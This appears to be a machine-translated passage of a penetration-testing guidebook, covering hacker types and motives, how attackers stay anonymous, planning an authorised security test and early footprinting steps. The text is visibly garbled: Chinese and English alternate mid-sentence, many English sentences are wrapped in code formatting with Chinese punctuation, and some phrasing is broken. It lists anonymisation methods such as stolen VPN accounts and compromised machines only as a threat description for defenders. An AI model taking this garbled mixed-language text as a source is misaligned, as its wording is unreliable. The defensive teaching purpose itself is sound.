由于媒体的炒作，公众对 *hacker* 的认知从无害的业余爱好者转变为恶意罪犯。然而，黑客经常表示公众误解了他们，这大多是事实。很容易在不了解的情况下形成偏见。不幸的是，许多黑客刻板印象是基于误解而非事实的，而这种误解不断助长一种持续的争论。

黑客可以根据其能力和底层动机进行分类。有些人技术娴熟，动机良好；他们只是追求更多知识。但其他黑客则有恶意意图，追求某种个人、政治或经济利益。不幸的是，黑客的负面方面通常掩盖了正面方面，并强化了负面刻板印象。

历史上，黑客为了追求知识和挑战的刺激而进行黑客活动。除了 *script kiddies*（技能有限的黑客爱好者）之外，传统黑客是冒险且富有创新思维的人，他们一直在尝试新的方法来利用计算机漏洞。（关于 script kiddies 的更多内容，请参见本章后的“Who Breaks into Computer Systems”部分。）黑客会注意到其他人常常忽略的事物。他们思维敏捷，具备良好的情境感知能力。他们会好奇地思考：如果一根电缆被拔掉、一个开关被切换，或程序中的代码行被修改，会发生什么。他们会进行这些尝试，然后观察结果。这些老派黑客就像 Tim “The Tool Man” Taylor —  — 汤姆·艾伦在经典情景喜剧《Home Improvement》中的角色 —  — 认为他们可以通过“重新布线”来改进电子和机械设备。

在成长过程中，黑客的对手是视频游戏屏幕上的怪物和反派。如今，黑客把他们的电子对手仅仅视为“电子”对手。进行恶意行为的黑客并不真正考虑到，他们攻击的防火墙、无线网络和 Web 应用背后是有血有肉的真实人。他们忽视了自己的行为会对这些人产生负面影响，比如危及他们的工作安全，甚至危及个人安全。政府支持的黑客？那是另一回事，因为这些黑客是在做出经过计算的决定。

另一方面，你很可能有几位员工、承包商、实习生或顾问，他们意图在你的网络上为了恶意目的 compromising 敏感信息。这些人并不像大众想象的那样进行黑客活动。相反，他们在服务器共享文件中翻找；潜入他们本不该进入的数据库；有时会窃取、修改或删除他们有权限访问的敏感信息。这种行为在检测上尤其困难，尤其是管理层普遍认为用户可以且应该做正确的事。如果这些用户在被雇佣前通过了刑事背景和信用检查，这种活动会持续下去。过往行为往往是未来行为的最佳预测指标，但仅凭其 clean record 和授权访问敏感系统的记录，并不意味着他或她不会做坏事。犯罪行为必须从某处开始！

尽管入侵计算机系统通常被视为负面行为，黑客和研究人员在技术进步中扮演关键角色。在一个没有这些人的世界里，最新的入侵防御技术、数据丢失防泄漏（DLP）或漏洞扫描和利用工具可能会截然不同，甚至根本不存在。这样的世界或许并非不好，但安全专业人员依然被雇佣，领域也在不断前进。不幸的是，技术安全解决方案无法阻止所有恶意攻击和未经授权使用，因为黑客（以及有时）恶意用户通常比保护技术领先几步。

不管你如何看待刻板的黑客或恶意用户，一件事是确定的：总有人会尝试通过拒绝服务（DoS）攻击或创建并发布恶意软件来破坏你的计算机系统并窃取信息。你必须采取适当的措施来保护系统免受这种入侵。


在`a world of black and white`，描述`typical hacker`是`easy`。`The historical stereotype of a hacker`是`an antisocial, pimply teenage boy`。`But the world has many shades of gray, and many types of people do the hacking`。`Hackers are unique people, so a profile is hard to outline`。`The best broad description of hackers is that all hackers aren’t equal`。`Each hacker has unique motives, methods, and skills`。

### Hacker skill levels

`Hacker skill levels`落入`three general categories`：

*   `Script kiddies`：`These hackers are computer novices who take advantage of the exploit tools, vulnerability scanners, and documentation available free on the Internet but who don’t have any real knowledge of what’s going on behind the scenes`。`They know just enough to cause you headaches but typically are very sloppy in their actions, leaving all sorts of digital fingerprints behind`。`Even though these guys are often the stereotypical hackers that you hear about in the news media, they need only minimal skills to carry out their attacks`。

*   `Criminal hackers`：`Often referred to as crackers, these hackers are skilled criminal experts who write some of the hacking tools, including the scripts and other programs that the script kiddies and security professionals use`。`These folks also write malware to carry out their exploits from the other side of the world`。`They can break into networks and computers and cover their tracks`。`They can even make it look as though someone else hacked their victims’ systems`。`Sometimes, people with ill intent may not be doing what’s considered to be hacking; nevertheless, they’re abusing their privileges or somehow gaining unauthorized access`。

    `Advanced hackers are often members of collectives that prefer to remain nameless`。`These hackers are very secretive, sharing information with their subordinates (lower-ranked hackers in the collectives) only when they deem those subordinates to be worthy`。`Typically, for lower-ranked hackers to be considered worthy, they must possess unique information or take the ganglike approach by proving themselves through a high-profile hack`。`These hackers are some of your worst enemies in IT`。`(Okay, maybe they’re not as bad as untrained and careless users, but they’re close. They do go hand in hand, after all!)`。`By understanding criminal hacker behavior, you’re simply being proactive, finding problems before they become problems`。

*   `Security researchers`：`These people are highly technical, publicly known security experts who not only monitor and track computer, network, and application vulnerabilities, but also write tools and other code to exploit them`。`If these guys didn’t exist, security professionals wouldn’t have much in the way of open-source and even certain commercial security testing tools`。

    `I follow many of these security researchers on a weekly basis via their blogs, Twitter feeds, and articles, and you should too`。`You can review my blog ([`www.principlelogic.com`](https://www.principlelogic.com)) and the appendix of this book, which lists other sources from which you can benefit`。`Following the progress of these security researchers helps you stay up to date on vulnerabilities as well the latest, greatest security tools`。`I list tools and related resources from various security researchers in the appendix and throughout the book`。

`Hackers can be good (white-hat) and bad (black-hat) hackers`。`Gray-hat hackers are a little bit of both`。`There are also blue-hat hackers, whom software developers invite to find security flaws in their systems`。

`A study from the Black Hat security conference found that everyday IT professionals even engage in malicious and criminal activity against others`。`And people wonder why IT doesn’t get the respect it deserves!`

`Regardless of age and complexion, hackers possess curiosity, bravado, and often very sharp minds`。

### Hacker motivations

`Perhaps more important than a hacker’s skill level is his or her motivation`。`The following groups of hackers have different motivations`：

*   `Hacktivists`：`These hackers try to disseminate political or social messages through their work`。`A hacktivist wants to raise public awareness of an issue but wants to remain anonymous`。`In many situations, these hackers try to take you down if you express a view that’s contrary to theirs`。`Examples of hacktivism are the websites that were defaced by the “Free Kevin” messages that promoted freeing Kevin Mitnick, who was in prison for his famous hacking escapades`。`Others cases of hacktivism include messages about legalized drugs, antiwar protests, wealth envy, big corporations, and just about any other social and political issue you can think of`。

*   `Terrorists`：`Terrorists (both organized and unorganized, often backed by government agencies) attack corporate or government computers and public utility infrastructures, such as power grids and air-traffic control towers`。`They crash critical systems, steal classified data, and/or expose the personal information of government employees`。`Countries take the threats that these terrorists pose so seriously that many mandate information security controls in crucial industries, such as the power industry, to protect essential systems from these attacks`。

*   `Hackers for hire`：`These hackers are part of organized crime on the Internet`。`Many of these hackers hire out themselves or their DoS-creating botnets for money — lots of it!`

`Criminal hackers are in the minority, so don’t think that you’re up against millions of these villains`。`Like the email spam kings of the world, many members of collectives prefer to remain nameless; the nefarious acts are carried out by a small number of criminals`。`Many other hackers just love to tinker and only seek knowledge of how computer systems work`。`One of your greatest threats works inside your building and has an access badge to the building, a network account, and hair on top, so don’t discount the insider threat`

## Why They Do It

`Hackers hack because they can`。`Period`。`Okay, the reason goes a little deeper`。`Hacking is a hobby for some hackers; they hack just to see what they can and can’t break into, usually testing only their own systems`。`These folks aren’t the ones I write about in this book`。`Instead, I focus on those hackers who are obsessive about gaining notoriety or defeating computer systems and those who have criminal intentions`

`Many hackers get a kick out of outsmarting corporate and government IT and security administrators`。`They thrive on making headlines and being notorious`。`Defeating an entity or possessing knowledge that few other people have makes them feel better about themselves, building their self-esteem`。`Many of these hackers feed off the instant gratification of exploiting a computer system`。`They become obsessed with this feeling`。`Some hackers can’t resist the adrenaline rush they get from breaking into someone else’s systems`。`Often, the more difficult the job is, the greater the thrill is for hackers`

`It’s a bit ironic, given their collective tendencies, but hackers often promote individualism — or at least the decentralization of information — because many of them believe that all information should be free`。`They think that their attacks are different from attacks in the real world`。`Hackers may ignore or misunderstand their victims and the consequences of hacking`。`They don’t think about the long-term effects of the choices they’re making today`。`Many hackers say that they don’t intend to harm or profit through their bad deeds, and this belief helps them justify their work`。`Others don’t look for tangible payoffs; just proving a point is often a sufficient reward for them`。`The word sociopath comes to mind when describing many such people`


恶意攻击者获得的知识以及成功入侵后获得的自尊心提升，可能会成瘾并演变成一种生活方式。一些攻击者希望让你的生活变得痛苦，而另一些则仅仅想要被看到或被听见。一些常见的动机包括报复、炫耀、好奇心、无聊、挑战、破坏、为获取金钱而盗窃、破坏、勒索、敲诈、企业间谍行为，以及对“the man”（体制）的公开反对。黑客经常引用这些动机来解释自己的行为，但他们往往在经济条件困难时更频繁地提及这些动机。

网络内的恶意用户可能会试图获取信息，以帮助他们解决个人财务问题、在竞争对手面前占据优势、向雇主报复，或满足好奇心、缓解无聊。

许多企业主和管理者——甚至某些网络和安全管理员——相信他们没有什么值得黑客关注的东西，或者黑客入侵后无法造成太大损害。这种观念严重错误。这种轻视的思维助长了坏人，并助长了他们的目标。黑客可以入侵看似不重要的系统，进而进入网络，并将其作为对其他系统发起攻击的跳板，而许多人却仍然不知情，因为缺乏适当的控制措施来防止和发现恶意使用。

黑客经常只是 `because they can`（因为能就能）进行入侵。有些黑客针对高知名度系统，但入侵任何系统都能让他们融入黑客圈子。黑客利用人们对安全的错误感知，针对几乎任何他们认为可以入侵的系统发起攻击。电子信息可以同时存在多个位置，因此如果黑客仅仅复制入侵系统中的信息，很难证明他们持有这些信息，也无法将其取回。

同样，黑客知道，仅仅破坏一个网页（尽管容易实现）并不利于他人业务。通常需要大规模数据泄露或钓鱼邮件攻击，导致大额资金被非法转账，才能引起业务高管的注意。但被入侵的网站常常能说服管理层和其他持怀怀疑态度的人关注信息安全威胁和漏洞。

许多最近的研究表明，大多数安全漏洞都是基础性的，这正好是我在安全评估中所看到的。我称这些基础漏洞为网络的 `low-hanging fruit`（低垂的果实），随时等待被利用。计算机入侵变得更容易执行却更难防范的原因包括：

* 网络和互联网连接的普遍使用。

* 互联网及内部网络中的计算机系统提供的匿名性（因为缺乏适当有效的日志、监控和告警）。

* 黑客工具数量增加且使用更便捷。

* 大量开放的无线网络帮助罪犯隐藏踪迹。

* 当前应用和数据库开发中的网络与代码库复杂度提升。

* 天真但精通计算机的孩子，渴望为了免费获取东西而放弃他们从未经历过的隐私。

* 如果攻击者被捕获，他们很可能不会受到调查或起诉。

恶意黑客只需找到一个安全漏洞，而 IT 和安全专业人员以及企业主则必须找出并解决所有漏洞！

尽管许多攻击未被发现或报告，一旦被发现，罪犯往往不会受到追责。当他们被捕时，黑客往往会将自己的行为合理化为利他的、对社会有益：他们只是在别人之前揭示漏洞。尽管如此，如果黑客被捕并受到起诉，他们依赖的“名声和荣耀”奖励体系就会受到威胁。

对恶意用户同样适用。通常他们的犯罪活动不被注意到，但如果被捕，安全 breach 可能会在保护股东价值或不惹恼客户和业务合作伙伴的名义下被隐瞒。然而，信息安全和隐私法律法规正在改变这种局面，因为在大多数情况下， breach 通知是强制性的。有时，恶意用户会被解雇或要求辞职。虽然通过 breach 披露法规，内部 breach 的公开案例正在增多（通常是通过 breach 通知法），但这些案例并不能全面反映平均组织内部实际发生的情况。

无论愿不愿意，大多数高管现在都必须处理各类州、联邦和国际法律法规，这些法规要求对 breach 或疑似 breach 的敏感信息进行通报。这些要求适用于外部入侵、内部 breach，甚至看似无害的丢失移动设备和备份磁带。附录列出了可能影响贵公司的信息安全和隐私法律法规。

## 规划和执行攻击

攻击方式多种多样：

* 有些黑客在攻击前准备甚久。他们收集小段信息，并有条不紊地执行攻击，正如我在 第 4 章 中所阐述。这类黑客是最难追踪的。

* 另一些黑客——通常是缺乏经验的脚本小子——在行动前未充分思考后果。例如，他们可能直接 Telnet 进入组织的路由器而不隐藏身份；或在未确认 Microsoft Exchange 版本及已装防护补丁的情况下，对 Exchange 服务器发起拒绝服务（DoS）攻击。这类黑客通常会被抓获，或至少被阻止。

* 恶意用户五花八门。有些人对网络及组织内部 IT 和安全运作非常了解；另一些人则盲目探测不该涉足的系统，往往做蠢事，导致安全或网络管理员将他们定位。

尽管黑客地下社区是一个社区，但许多黑客——尤其是高级黑客——不与大众共享信息。大多数黑客倾向于独立完成工作，以保持匿名。

经常相互交流的黑客常使用私人论坛、匿名邮箱、黑客地下网站（即深网或暗网）以及 Internet Relay Chat（IRC）。你可以登录这些站点中的许多，查看黑客们在做什么。

无论采取何种方式，大多数恶意攻击者都利用无知。他们了解以下真实世界安全方面：

* **大多数计算机系统管理不当。** 系统未及时补丁、未正确硬化、缺乏监控。攻击者常能在防火墙或入侵防御系统（IPS）的视线下飞行，尤其是那些尚未被监控且拥有完全访问权限的恶意用户。

* **大多数网络和安全管理员跟不上新漏洞和攻击手段的洪流。** 他们任务繁重，火灾四起，难以及时发现或应对安全事件，往往因时间和目标管理不善而错失良机。附录中提供了针对 IT 和安全专业人员的时间与目标管理资源。


信息系统每年都在变得更加复杂。这一事实正是过载的管理员难以了解所有系统的网络和硬盘上正在发生什么的原因。虚拟化、云服务以及笔记本电脑、平板电脑和手机等移动设备是这种复杂性的基础。物联网正在使问题变得指数级更糟。

时间是攻击者的朋友，几乎总是站在他的或她的一边。通过电脑而非亲自攻击，黑客拥有更好的攻击时机控制。攻击可以缓慢进行，从而难以被发现。攻击通常在正常工作时间后进行，往往在深夜，对于恶意用户来说，甚至可能在家中进行。防守可能在非工作时间更弱，因为物理安全和入侵监控减少，而通常的网络管理员或保安正在睡觉。

## Maintaining Anonymity

聪明的攻击者想要保持低调。掩盖痕迹是首要任务，而且很多时候，他们的成功取决于保持不被注意。他们希望避免引起怀疑，以便将来能够再次访问系统。

黑客通常通过以下资源保持匿名：

* 使用朋友或前雇主的借用或被盗用的远程桌面和虚拟专用网络（VPN）账户。

* 图书馆、学校或酒店商务中心的公共电脑。

* 开放的无线网络。

* Internet 代理服务器或匿名化服务。

* 匿名或一次性电子邮件账户。

* 开放的电子邮件中继。

* 其他组织的受感染电脑（也称为 `zombies` 或 `bots`）。

* 受害者网络上的工作站或服务器。

如果黑客使用足够多的跳板进行攻击，他们几乎无法被追踪。幸运的是，你最大的担忧——恶意用户——通常并不那么聪明，除非他是网络或安全管理员。在这种情况下，你面临严重的局面。没有强有力的监督，你无法阻止黑客在你的网络上造成破坏。

Chapter 3

## Developing Your Security Testing Plan

IN THIS CHAPTER

`设定安全测试目标`

`选择要测试的系统`

`制定你的测试标准`

`检查黑客工具`

作为信息安全专业人员，你在开始之前必须规划你的安全评估工作。制定详细计划并不意味着你的测试必须复杂——只是要确保你清楚且简洁地知道要做什么。鉴于漏洞和渗透测试的严重性，你应该让这个过程尽可能结构化。

即使你只测试一个网页应用或一组工作站，也要确保采取关键步骤：确立你的目标，定义并记录要测试的范围，确定测试标准，并获取并熟悉适当的工具。本章将这些步骤介绍，帮助你创建一个积极的环境，从而为成功做好准备。

## Establishing Your Goals

你无法击中看不到的目标。你的测试计划需要目标。脆弱性和渗透测试的主要目标是从坏 guys 的视角找出系统中的缺陷，以便你能使环境更安全。然后你可以进一步：

* 定义更具体的目标。将这些目标与业务目标对齐。明确你和管理层在这一过程中的期望，以及用来确保你充分利用测试的绩效标准。

* 制定包含开始和结束日期以及测试时间的具体计划。这些日期和时间是你整体计划的关键组成部分。

在开始任何测试之前，你必须 absolutely、positively 将所有内容记录下来并获得批准。记录一切，并让管理层参与其中。你最好的盟友是一位支持你工作的经理。

在定义安全测试计划目标时，以下问题可以帮助你启动思路：

* 你的测试是否支持业务及其 IT 和安全部门的使命？

* 执行此测试能满足哪些业务目标？这些目标可能包括：

    * 通过 Statement on Standards for Attestation Engagements（SSAE）18 审计。

    * 满足联邦法规，如健康保险可携带性和责任法案（HIPAA）和支付卡行业数据安全标准（PCI DSS）。

    * 满足客户或业务合作伙伴的合同要求。

    * 维护公司形象。

    * 为 internationally 认可的安全标准 ISO/IEC 27001:2013 做准备。

* 这项测试如何改善安全、IT 和整体业务？

* 你保护了哪些信息（例如个人健康信息、知识产权、机密客户信息或员工的私人信息）？

* 你和你的组织愿意为安全评估投入多少金钱、时间和精力？

* 你将产生哪些具体交付物？*交付物*可以包括从高层执行摘要报告到详细技术报告，以及你测试的内容和结果的说明。你可以在测试过程中获取的具体信息，如密码和其他机密信息。

* 你想要实现哪些具体结果？期望的结果包括为聘请或外包安全人员提供理由、增加安全预算、满足合规要求或增强安全系统。

在你明确目标后，记录实现这些目标的步骤。如果一个目标是通过竞争优势来保留现有客户并吸引新客户，请确定以下问题的答案：

* 你何时开始测试？

* 你的测试方式是 `blind`（即隐蔽测试，你对被测试系统一无所知）还是 `knowledge-based`（即基于知识的测试，你获得了被测试系统的具体信息，如 IP 地址、主机名、用户名和密码）？

    我推荐后者。

* 你的测试是技术性的，还是涉及物理安全评估或社会工程？

* 你是否是更大的安全测试团队（有时称为 `tiger team` 或 `red team`）的一员？

* 你是否会在何时通知受影响的各方你在做什么以及何时做，以及如何通知？

    客户通知是一个关键问题。许多客户欣赏你为保护他们的信息所做的努力。但请确保你正确设置了所有人的期望。

* 你如何知道客户在意你在做什么？

* 你如何通知客户组织正在采取措施增强他们信息的安全性？

* 哪些指标可以确保这些努力产生成效？

设定目标需要时间，但你不会后悔设定它们。这些目标是你的路线图。如果你有任何顾虑，请参考这些目标以确保你保持正确方向。你可以在附录中找到关于目标设定和管理的更多资源。

## Determining Which Systems to Test


在确定总体目标后，决定要测试哪些系统。你可能不需要 —  — 也无需 —  — 同时评估所有系统的安全性。评估所有系统的安全性可能是一项庞大的工作，并且可能导致问题。我并不是建议你永远不评估你拥有的每台计算机和应用程序。我只是建议，只要可能，你就应该将项目分解为更小的部分，使其更易于管理，尤其是如果你刚刚开始时。帕累托原则（关注最高回报的任务）应当占主导地位。你可能会根据高层风险分析来决定测试哪些系统，需要回答以下问题：

*   你的最关键系统有哪些？

*   哪些系统，如果未经授权访问，会造成最大麻烦或遭受最大损失？

*   哪些系统看起来最容易受到攻击？

*   哪些系统缺乏文档，管理不频繁，或者是你所知最少的？

下面的列表包括你可能进行漏洞和渗透测试的设备、系统和应用程序：

*   路由器和交换机

*   防火墙

*   无线接入点

*   Web 应用程序（内部、外部（本地托管或在云中）

*   数据库、邮件和文件服务器

*   存储机密信息的移动设备（如智能手机和平板电脑）

*   物理安全摄像头和建筑物访问控制系统

*   监控控制与数据采集（SCADA）和工业控制系统

*   工作站和服务器

你测试的系统取决于多种因素。如果你拥有小型网络，你可以测试所有系统。对于大型组织，应考虑仅测试公共可访问的主机，例如电子邮件和 web 服务器及其关联应用程序。安全测试流程灵活。基于商业意义或合规法规或业务合作伙伴和客户的要求来做出决定。

从最脆弱的系统开始，并考虑以下因素：

*   计算机或应用程序是位于网络内部还是云端。

*   该系统运行的操作系统（OS）和应用程序。

*   系统上存储的关键信息的数量或类型。

之前的安全风险评估、漏洞测试或业务影响分析可能已经回答了上述问题。如果有相关文档，它可以帮助你识别进一步测试的系统。Bow Tie 和失效模式与影响分析（FMEA）是其他方法。

漏洞和渗透测试比基础漏洞扫描和高层信息风险评估更深入。通过适当的测试，你可以先收集所有系统的信息 —  — 包括整个组织 —  — 然后再重点评估最脆弱的系统。我在 第 4 章 中讨论了漏洞和渗透测试方法论。

另一个决定从哪里开始的因素是你对系统可见度的评估。初期可能更合理（至少在最初）关注存储关键客户信息的数据库或文件服务器，而不是集中在托管营销信息的防火墙或 web 服务器上。

### 创建测试标准

一次误解或失误可能导致系统在你的安全测试期间崩溃。没有人希望这样发生。为了防止事故，请制定并记录测试标准。这些标准应包括：

*   测试的时间以及整体时间表。

*   执行哪些测试。

*   你事先了解系统的程度。

*   测试的具体操作方式以及来源 IP 地址（如果通过 Internet 进行外部测试）。

*   发现重大漏洞后的应对措施。

此列表为通用最佳实践；根据具体情况，你可以应用更多标准。下面的章节将详细描述这些最佳实践。

#### 何时进行测试

人们常说“时机就是一切”，尤其是在进行安全测试时。确保你的测试尽量减少对业务流程、信息系统和人员的干扰。你想避免因误传测试时间而导致在高流量电子商务站点中间进行拒绝服务（DoS）攻击，或在深夜进行密码破解测试的情况。12 小时的时间差（如在重大生产时段的下午 2 点与在较慢时期的凌晨 2 点）在测试系统时可能产生巨大差异！即使团队成员分布在不同时区，也可能带来问题。项目中所有成员必须在开始之前同意详细的时间表。团队成员的认同能让大家站在同一页，设定正确的期望。

如果可能且实际可行，请通知你的互联网服务提供商、云服务提供商和托管机房提供商。许多公司要求在批准测试前提前通知。这些公司已部署防火墙或入侵防御系统（IPS）来检测恶意行为。如果提供商知道你正在进行测试，他们不太可能阻止你的流量，并且你将获得更好的结果。

你的测试时间表应包括具体的短期日期、每次测试的时间、开始和结束日期，以及任何特定的里程碑。你可以在简单的电子表格或面向项目的甘特图中输入时间表，或在更大的项目计划中进行。下面的时间表示例简洁明了，并在测试过程中提供参考：

| ***Test Performed*** || ***Start Time*** || ***Projected End Time*** |

| --- | --- | --- |

| Web application vulnerability scanning || June 1, 21:00 EST || June 2, 07:00 |

| Network host vulnerability scanning || June 2, 10:00 EST || June 3, 02:00 |

| Network host vulnerability analysis/exploitation || June 3, 08:00 EST || June 6, 17:00 |

#### 运行特定测试

你可能被要求执行一些通用漏洞扫描，或者想进行特定测试，例如密码破解或尝试访问 Web 应用程序。你甚至可能在进行社交工程测试或评估网络中的 Windows。无论如何，你可能不希望透露测试的具体细节。即使你的经理或客户不要求详细的测试记录，也应至少记录你正在做的高层测试内容。记录你的测试可以消除潜在的误解，避免你陷入麻烦。此外，如果你发现不当行为，可能需要文档作为证据。

在你测试的系统上启用日志以及使用的工具日志，可以提供你测试了什么以及何时测试的证据。虽然这可能过度，但你可以使用诸如 TechSmith 的 Camtasia Studio（[`www.techsmith.com/camtasia.html`](http://www.techsmith.com/camtasia.html)）等工具记录屏幕操作。

有时，你清楚自己要执行的通用测试，但如果使用自动化工具，很难完全理解每个测试。这种情况尤其常见，当你使用的软件每次运行时都会从供应商处接收实时漏洞更新和补丁。频繁更新的潜在影响凸显了阅读工具随附的文档和 readme 文件的重要性。

#### 进行盲测与有知识的评估


Having some knowledge of the systems you’re testing is generally the best approach, but it’s not required. Having a basic understanding of the systems you hack can protect you and others. Obtaining this knowledge shouldn’t be difficult if you’re testing your own in-house systems. If you’re testing a client’s systems, you may have to dig a little deeper into how the systems work so that you’re familiar with them. Doing so has always been my practice, and I’ve had only a small number of clients ask for a full blind assessment, because most people are scared of them. I’m not saying that blind assessments aren’t valuable, but the type of assessment you carry out depends on your needs.

The best approach is to plan on `unlimited` attacks, wherein any test is fair game, possibly even including DoS testing. The bad guys aren’t poking around on your systems within a limited scope, so why should you?

Consider whether the tests should be performed so that they’re undetected by network administrators and any managed security service providers or related vendors. Though not required, this practice should be considered, especially for social engineering and physical security tests. I outline specific tests for those purposes in chapters 6 and 7.

If too many insiders know about your testing, they might improve their habits enough to create a false sense of vigilance, which can negate the hard work you put into the testing. Still, it’s almost always a good idea to inform the owner of the system who may not be your sponsor. If you’re doing this testing for clients, `always` have a main point of contact — preferably someone who has decision-making authority.

### Picking your location

The tests you perform dictate where you run them from. Your goal is to test your systems from locations that by malicious hackers or insiders can access. You can’t predict whether you’ll be attacked by someone inside or outside your network, so cover your bases as much as you can. Combine external (public Internet) tests and internal (private network) tests.

You can perform some tests, such as password cracking and network infrastructure assessments, from your office. For external tests that require network connectivity, you may have to go offsite (a good excuse to work from home), use an external proxy server, or simply use guest Wi‑Fi. Some security vendors’ vulnerability scanners can even be run from the cloud. Better yet, if you can assign an available public IP address to your computer, plug into the network outside the firewall for a hacker’s‑eye view of your systems.

Internal tests are easy because you need only physical access to the building and the network. You may be able to use a DSL line or cable modem that’s already in place for visitor and guest use.

### Responding to vulnerabilities you find

Determine ahead of time whether you’ll stop or keep going when you find a critical security hole. You don’t need to keep testing forever. Just follow the path you’re on until you’ve met your objectives or reached your goals. When in doubt, have a specific goal in mind and stop when you meet that goal.

If you don’t have goals, how are you going to know when reach your security testing destination?

If you discover a major hole, I recommend contacting the right people as soon as possible so that they can begin fixing the issue right away. The right people may be software developers, product or project managers, or even chief information officers. If you wait a few hours, days, or weeks, someone may exploit the vulnerability and cause damage that could have been prevented, potentially creating bigger legal issues.

### Making silly assumptions

You’ve heard what you make of yourself when you assume things. Even so, you make assumptions when you test your systems. Here are some examples of those assumptions: 

* All the computers, networks, applications, and people are available when you’re testing. (They won’t be.)

* You have all the proper testing tools. (When you start your sting, you’ll be lucky to have half of what you actually end up needing.)

* The testing tools you use minimize your chances of crashing the systems you test. (Nope, especially if you don’t know how to use them properly.)

* You understand the likelihood that you’re going to overlook something. (You will.)

* You know the risks of your tests. (The risks can be especially high when you don’t plan properly.)

Document all assumptions. You won’t regret doing that.

## Selecting Security Assessment Tools

Which security assessment tools you need depend on the tests you’re going to run. You can perform some security tests with a pair of sneakers, a telephone, and a basic workstation on the network, but comprehensive testing is easier when you have good, dedicated tools.

The tools I discuss in this book aren’t malware. The tools and even their websites may be flagged as such by certain antimalware and web filtering software, but they’re not malware. I cover only legitimate tools, many of which I’ve used for years. If you experience trouble downloading, installing, or running the tools I cover in this book, consider configuring your system to allow them through or otherwise trust their execution. Keep in mind that I can’t make any promises. Use checksums where possible by comparing the original MD5 or SHA checksum with the one you get using a tool such as CheckSum Tool ([`http://sourceforge.net/projects/checksumtool`](http://sourceforge.net/projects/checksumtool)). A criminal could always inject malicious code into the actual tools, so there’s no guarantee of security. You knew that anyway, right?

If you’re not sure what tools to use, fear not. Throughout this book, I introduce a wide variety of tools —free and commercial — that you can use to accomplish your tasks. Chapter 1 provides a list of commercial, freeware, and open-source tools. The appendix contains a comprehensive list of tools.

It’s important to know what each tool can and can’t do, as well as how to use each one. I suggest reading the manual and other help files. Unfortunately, some tools have limited documentation, which can be frustrating. You can search forums and post a message if you’re having trouble with a tool.

Security vulnerability scanning and exploit tools can be hazardous to your network’s health. Be careful when you use them. Always make sure that you understand what every option does before you use it. Try your tools on test systems if you’re not sure how to use them. Even if you’re familiar with the tools, this precaution can prevent DoS conditions and loss of data on your production systems.

If you’re like me, you may despise some freeware and open-source security tools. Plenty of them have wasted hours or even days of my life that I’ll never get back. If these tools end up causing you more headaches than they’re worth or don’t do what you need them to do, consider purchasing commercial alternatives, which are often easier to use and typically generate better high-level executive reports. Some commercial tools are expensive, but their ease of use and functionality may justify the initial and ongoing costs. In most situations with security tools, you get what you pay for.

Chapter 4

## Hacking Methodology

IN THIS CHAPTER

**Examining steps for successful vulnerability and penetration testing**

**Gleaning information about your organization from the Internet**

**Scanning your network**

**Looking for vulnerabilities**


在开始进行安全测试之前，制定一套工作方法至关重要。漏洞和渗透测试不仅仅是对系统或网络进行“捅捅补补”。经过验证的技术能够指引你在“黑客高速公路”上行进，确保你到达正确的目的地。使用能够支持你测试目标的方法论，能够将你与业余爱好者区分开来。方法论还能确保你充分利用时间和精力。

## 为测试做准备

过去，许多安全评估技术都依赖手动操作。如今，某些漏洞扫描器能够自动化从测试到报告再到修复验证（即确认漏洞是否已修复）的各项任务。部分漏洞扫描器甚至能够帮助你执行纠正措施。这些工具让你能够专注于执行测试，而无需纠结于具体的步骤。遵循通用的方法论并了解背后的原理，能够帮助你发现真正重要的问题。

要像程序员、放射科医生或房产检查员一样进行逻辑思考，以拆解并与系统的各个组件进行交互，观察它们的工作方式。你会收集信息，往往以许多细小的碎片形式出现，然后将这些碎片拼凑成完整的图景。你从点 A 开始，心中有多个目标，运行测试（在过程中会重复许多步骤），并一步步接近目标 B，直至发现安全漏洞。

用于此类测试的流程与恶意攻击者所使用的流程相同，唯一的区别在于目标和实现方式。当今的攻击可以来自任何方向、针对任何系统——而不仅仅是网络边缘和互联网，正如你过去可能学到的那样。请测试所有可能的入口点，包括合作伙伴、供应商、客户网络，以及家庭用户、无线网络和移动设备。任何保护你电脑系统的有形或无形组件——无论是位于建筑内部还是外部——都可能成为攻击目标，并且最终都需要接受测试。

`当你开始进行测试时，应保留一份日志，记录你执行的测试、使用的工具、被测试的系统以及结果。这些信息可用于以下目的：`

*   记录以往测试的成功经验及其原因。

*   证明你的工作。

*   如出现问题或疑问，将你的测试结果与防火墙、入侵防御系统（IPS）及其他日志文件进行关联。

*   记录你的发现。

除了常规备注外，尽可能使用 Snagit、Camtasia 或类似工具拍摄结果的屏幕截图。这些截图在以后需要证明发生了什么时非常有用，也能在生成最终报告时发挥帮助。根据所用工具的不同，这些截图可能是你唯一的漏洞或利用证据，直至撰写最终报告之时才会被使用。第 3 章 列出了编制和记录安全测试计划的一般步骤。

你的主要任务是发现漏洞，并模拟恶意 intent 行为者（如部分针对单台计算机的攻击，或针对整个网络的全面攻击）所进行的信息收集与系统入侵过程。通常，你会寻找恶意用户或外部攻击者可能利用的弱点。评估外部和内部系统（包括涉及计算机、网络、人员以及物理基础设施的流程和程序）。查找漏洞，检查系统之间的相互连接以及私有系统和信息是否（或不是）受到不可信元素的保护。

这些步骤不包括针对社交工程和物理安全的具体方法，但技术是相同的。我在第 6 章和第 7 章分别对社交工程和物理安全进行了更详细的说明。

`如果你为客户执行安全评估，可能会选择“盲测试”路线，即仅凭公司名称开始，而没有其他信息。盲测试方法从零开始，能够让你更直观地感知恶意攻击者可以公开获取的信息和系统。无论你选择盲测还是公开测试，请记住盲测往往耗时更长，且可能遗漏（甚至遗漏很多）安全漏洞。盲测并非首选的测试方法，但仍有许多人坚持使用它。`

作为安全专业人员，你可能不必担心掩盖踪迹或规避防火墙等安全控制，因为你的所有操作均合法；但你可能希望进行隐蔽测试。本书讨论黑客用于隐藏自身行为的技术，并提供相应的隐蔽对策。

## 看别人所见

从外部视角获取信息能够获取大量其他人能看到的关于你组织和系统的资料，通常称为 *footprinting*（踪迹收集）。以下是获取信息的方法：

*   使用网页浏览器搜索关于你组织的信息。Google、Bing 等搜索引擎是很好的起点。

*   运行网络扫描、探测开放端口，并寻找漏洞，以获取系统的具体信息。作为内部人员，你可以使用端口扫描器、网络发现工具以及脆弱性扫描器（如 Nmap、SoftPerfect Network Scanner 和 GFI LanGuard）查看可访问的内容以及可访问的人员。

`无论你是进行概括性搜索还是技术性探测，都应根据合理范围限制信息的收集量。你可能花费一小时、一天或一周时间收集这些信息。所需时间取决于组织规模以及信息系统的复杂程度。`

